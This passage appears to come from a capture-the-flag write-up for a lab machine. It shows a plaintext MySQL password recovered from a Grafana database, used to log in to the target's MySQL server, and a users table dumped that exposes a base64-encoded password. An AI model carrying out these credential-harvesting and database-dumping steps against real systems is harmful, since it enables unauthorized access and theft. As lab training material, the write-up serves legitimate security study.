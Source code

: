 Password can be found in `data_source` table in plain text. 
```
sqlite> select * from data_source;
2|1|1|mysql|mysql.yaml|proxy||dontStandSoCloseToMe63221!|grafana|grafana|0|||0|{}|2022-09-01 22:43:03|2022-11-24 19:20:49|0|{}|1|uKewFgM4z
```

Mysql credentials are `grafana:dontStandSoCloseToMe63221!`

## Explore the MySQL on 3306
As now we've got the credentials, let's try to connect to MySql database.

```
┌──(luka㉿yokai)-[~/htb/boxes/ambasador]
└─$ mysql -h 10.10.11.183 -u grafana -p'dontStandSoCloseToMe63221!'
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MySQL connection id is 35
Server version: 8.0.30-0ubuntu0.20.04.2 (Ubuntu)

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MySQL [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| grafana            |
| information_schema |
| mysql              |
| performance_schema |
| sys                |
| whackywidget       |
+--------------------+
6 rows in set (0.050 sec)
```

Change database to `whackywidget`

```
MySQL [(none)]> use whackywidget;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MySQL [whackywidget]> show tables;
+------------------------+
| Tables_in_whackywidget |
+------------------------+
| users                  |
+------------------------+
1 row in set (0.036 sec)

MySQL [whackywidget]> select * from users;
+-----------+------------------------------------------+
| user      | pass                                     |
+-----------+------------------------------------------+
| developer | YW5FbmdsaXNoTWFuSW5OZXdZb3JrMDI3NDY4Cg== |
+-----------+------------------------------------------+
1 row in set (0.043 sec)
```
